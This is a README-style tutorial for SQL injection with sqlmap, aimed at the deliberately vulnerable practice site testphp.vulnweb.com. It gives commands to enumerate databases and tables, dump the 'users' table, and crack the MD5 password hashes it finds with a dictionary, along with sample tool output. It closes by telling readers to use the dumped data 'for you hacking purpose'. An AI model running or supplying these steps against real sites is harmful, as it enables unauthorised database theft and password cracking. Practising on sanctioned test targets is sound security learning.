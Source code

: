 # Sql Injection:

## 1.Installing sqlmap in kali linux:
    sudo apt-get update
    sudo apt-get upgrade -y
    sudo apt-get install sqlmap
## 2.About Sqlmap working
    man sqlmap

![Screenshot 2025-05-29 164447](https://github.com/user-attachments/assets/c12598a3-0058-4355-8fc6-131a5793c28b)



## 3.Attacking
     sqlmap -u <website link> http://testphp.vulnweb.com/listproducts.php?cat=1  -dbs


![Screenshot 2025-05-29 164651](https://github.com/user-attachments/assets/d63353d2-d1fb-4d69-92e9-423ab73313ee)



## 4.Getting database details

After getting the deatils of the Database managament (DBMS) of the database and with that we will also get the tables and coloumns of the database now we target the (DBMS) and in that the tables we target so, for that the command is

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
![Screenshot 2025-05-29 164732](https://github.com/user-attachments/assets/978ba1d1-8161-4474-8d04-943723a9041a)


## 5.dump data

After getting the deatils of the tables which the database has then we procced and download all the Data which the 'user' contain.

      sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all

![Screenshot 2025-05-29 164825](https://github.com/user-attachments/assets/237de1c6-0cfe-4324-9bc3-361306c69912)



      writing hashes to a temporary file '/tmp/sqlmapkis89bs647009/sqlmaphashes-aaiq4oy_.txt' 
      do you want to crack them via a dictionary-based attack? [Y/n/q] Y
      using hash method 'md5_generic_passwd'
      what dictionary do you want to use?
      [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
      [2] custom dictionary file
      [3] file with list of dictionary files
      > 1
      using default dictionary
      do you want to use common password suffixes? (slow!) [y/N] N


![Screenshot 2025-05-29 164918](https://github.com/user-attachments/assets/5a627331-87c1-40eb-bc05-d443848158f6)




**After that the data is saved as the .csv file and by default all the tables is dumped and stored and the path is given at the last where it stored**

        /home/kali/.local/share/sqlmap/output/testphp.vulnweb.com

![Screenshot 2025-05-29 165001](https://github.com/user-attachments/assets/3e11c7b7-c419-4fe4-9da1-273dee6abe19)

 

**Now just cd into the directory and cat the files and use the data for you hacking purpose.**
